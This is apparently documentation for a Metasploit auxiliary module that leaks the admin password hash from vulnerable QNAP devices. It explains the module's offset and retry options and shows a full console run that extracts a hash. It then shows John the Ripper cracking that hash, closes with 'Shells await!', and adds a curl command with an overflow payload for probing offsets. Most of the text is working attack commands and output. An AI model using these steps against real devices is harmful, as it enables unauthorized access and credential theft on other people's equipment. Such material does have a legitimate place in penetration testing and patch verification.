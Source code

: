 ## Introduction

This is going to be a quick rundown of how to use this module to
retrieve the admin hash from a vulnerable QNAP device.

The defaults I've set should be adequate for blind exploitation, but you
may need to tweak them for your target.

## Options

**OFFSET_START**

You want to set this to a value where you can see a backtrace. Set this
lower if you're not sure. Default is 2000.

**OFFSET_END**

Set this option to a value where you don't see a backtrace. Set this
higher if you're not sure. Default is 5000.

**RETRIES**

Sometimes the attack won't be successful on the first run. This option
controls how many times to retry the attack. Default is 10.

**VERBOSE**

This will tell you how long the binary search took and how many requests
were sent during exploitation. Default is false.

## Usage

Let's run through a successful exploitation. I've tailored the options
to my target. Your target may differ.

```
msf > use auxiliary/gather/qnap_backtrace_admin_hash 
msf auxiliary(qnap_backtrace_admin_hash) > set rhost [redacted]
rhost => [redacted]
msf auxiliary(qnap_backtrace_admin_hash) > set offset_end 3000
offset_end => 3000
msf auxiliary(qnap_backtrace_admin_hash) > set verbose true
verbose => true
msf auxiliary(qnap_backtrace_admin_hash) > run

[*] QNAP [redacted] detected
[*] Binary search of 2000-3000 completed in 5.02417s
[*] Admin hash found at 0x8068646 with offset 2920
[+] Hopefully this is your hash: $1$$vnSTnHkIF96nN6kxQkZrf.
[*] 11 HTTP requests were sent during module run
[*] Auxiliary module execution completed
msf auxiliary(qnap_backtrace_admin_hash) > 
```

We got lucky on this run. Sometimes it takes a couple retries to get the
hash. Now what do we do with it...

```
wvu@kharak:~$ john --wordlist --rules --format=md5crypt shadow
Loaded 1 password hash (md5crypt, crypt(3) $1$ [MD5 128/128 SSSE3 20x])
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter2          (admin)
1g 0:00:00:01 DONE (2017-03-15 04:41) 0.8928g/s 24839p/s 24839c/s
24839C/s flipper2..mercury2
Use the "--show" option to display all of the cracked passwords reliably
Session completed
wvu@kharak:~$ 
```

Cracked! Now you can log in to the device. Shells await!

## Addendum

I used this `curl` command to test for offsets:

```
curl -kv "https://[redacted]/cgi-bin/cgi.cgi?u=admin&p=$(perl -e 'print "A"x2000' | base64 -w 0)"
```
